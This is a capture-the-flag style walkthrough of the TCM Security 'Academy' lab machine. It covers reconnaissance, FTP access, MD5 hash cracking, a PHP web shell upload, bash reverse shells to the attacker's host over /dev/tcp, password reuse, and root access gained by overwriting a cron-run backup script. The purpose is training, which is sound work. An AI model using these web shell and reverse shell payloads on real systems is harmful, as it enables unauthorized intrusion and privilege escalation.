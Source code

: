 # TCM Security - Academy
> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

---------------

<br>

Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM 

![image](https://github.com/Aftab700/scripts/assets/79740895/dd251727-90da-47f8-8241-f8102789f208)

After starting the target VM 

![image](https://github.com/Aftab700/scripts/assets/79740895/0c04cd06-d751-45e5-8d5c-a9fada2715c3)

Now that we have the target IP `192.168.0.113` let's run the `nmap`

<details><summary markdown="span">Click to see nmap result :diamond_shape_with_a_dot_inside: </summary>

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
</details>


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](https://github.com/Aftab700/scripts/assets/79740895/799cc963-eed3-49a0-bd76-c60ad9b4bc6e)

![image](https://github.com/Aftab700/scripts/assets/79740895/ce5d5add-9ec1-4471-aaec-bc22d5a34756)

The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page

![image](https://github.com/Aftab700/scripts/assets/79740895/eca423f6-d907-4274-b7fa-f6e3c2db6195)

There is nothing much to see in this default page so let's do the directory brute force

<details><summary markdown="span">Click to see dirsearch result :diamond_shape_with_a_dot_inside: </summary>

```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```

</details>

We found the `/phpmyadmin/` and `/academy/` directories

on the `http://192.168.0.113/academy/` page we have one login form

![image](https://github.com/Aftab700/scripts/assets/79740895/b02dbd16-5f94-4320-8ca5-47db310e3640)

Let's try the login login credentials `10201321:student` that we found previously from ftp note.

![image](https://github.com/Aftab700/scripts/assets/79740895/d03c1c00-ab3e-4208-9b2c-0a94bf6ee40c)

It worked we are now logged in

On the My Profile page we have file upload functionality

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server

![image](https://github.com/Aftab700/scripts/assets/79740895/7c63f62b-0f51-4997-9a3d-f6e2c9cf6e6b)

we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"`

![image](https://github.com/Aftab700/scripts/assets/79740895/029bc3e4-be4b-4635-a02e-7db95c2b2f46)
![image](https://github.com/Aftab700/scripts/assets/79740895/5f49619c-52aa-4b19-84a9-d5d442b8a673)

In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie

![image](https://github.com/Aftab700/scripts/assets/79740895/7f5a0fc4-7a52-46d2-9d02-74dd1ab9c017)

looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access

![image](https://github.com/Aftab700/scripts/assets/79740895/d4c1bbe8-60db-4eb1-99fb-50ab48aec36d)

Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](https://github.com/Aftab700/scripts/assets/79740895/8990e9af-2c66-482d-9885-9382f8b3f0b6)

![image](https://github.com/Aftab700/scripts/assets/79740895/d286d468-c3f1-4a67-b46f-faa93150976f)

Flag:

![image](https://github.com/Aftab700/scripts/assets/79740895/a128299b-e5a6-4669-b1bd-582b7d853dd5)

<br>

:octocat: Happy Hacking :octocat:
